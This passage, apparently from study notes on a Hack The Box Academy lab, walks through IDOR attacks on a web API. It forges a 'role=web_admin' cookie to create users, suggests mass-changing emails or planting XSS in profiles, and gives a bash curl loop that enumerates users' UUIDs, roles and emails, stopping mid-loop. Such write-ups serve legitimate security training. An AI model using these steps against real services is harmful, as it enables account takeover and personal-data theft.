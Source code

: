 Now, we can refresh the page to update our cookie, or manually set it as `Cookie: role=web_admin`, and then intercept the `Update` request to create a new user and see if we'd be allowed to do so:

![create_new_user_2](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_create_new_user_2.jpg)

We did not get an error message this time. If we send a `GET` request for the new user, we see that it has been successfully created:

![create_new_user_2](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_get_new_user.jpg)

By combining the information we gained from the `IDOR Information Disclosure vulnerability` with an `IDOR Insecure Function Calls` attack on an API endpoint, we could modify other users' details and create/delete users while bypassing various access control checks in place. On many occasions, the information we leak through IDOR vulnerabilities can be utilized in other attacks, like IDOR or XSS, leading to more sophisticated attacks or bypassing existing security mechanisms.

With our new `role`, we may also perform mass assignments to change specific fields for all users, like placing XSS payloads in their profiles or changing their email to an email we specify. `Try to write a script that changes all users' email to an email you choose.`. You may do so by retrieving their `uuids` and then sending a `PUT` request for each with the new email.

# Question
---
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250217165333.png)

We can use this script to enumerate users:

```bash
#!/bin/bash

target_url="http://SERVER_IP:PORT/profile/api.php/profile"

# Color codes
GREEN='\033[0;32m'
RED='\033[0;31m'
CYAN='\033[0;36m'
NC='\033[0m' # No Color

echo -e "${CYAN}[*] Enumerating users 1-10...${NC}"
echo "----------------------------------------"

for uid in {1..10}; do
    response=$(curl -s "${target_url}/${uid}")
    
    if echo "$response" | grep -q "uuid"; then
        uuid=$(echo "$response" | jq -r '.uuid')
        role=$(echo "$response" | jq -r '.role')
        email=$(echo "$response" | jq -r '.email')
        full_name=$(echo "$response" | jq -r '.full_name')

        # Check for admin role
        if [ "$role" = "web_admin" ]; then
            echo -e "${RED}[!] ADMIN USER FOUND:${NC}"
            echo -e "${RED}UID: $uid"
            echo -e "UUID: $uuid"
            echo -e "Role: $role"
            echo -e "Name: $full_name"
            echo -e "Email: $email${NC}"
        else
            echo -e "${GREEN}[+] User $uid:${NC}"
            echo "UUID: $uuid"
            echo "Role: $role"
            echo "Name: $full_name"
            echo "Email: $email"
```
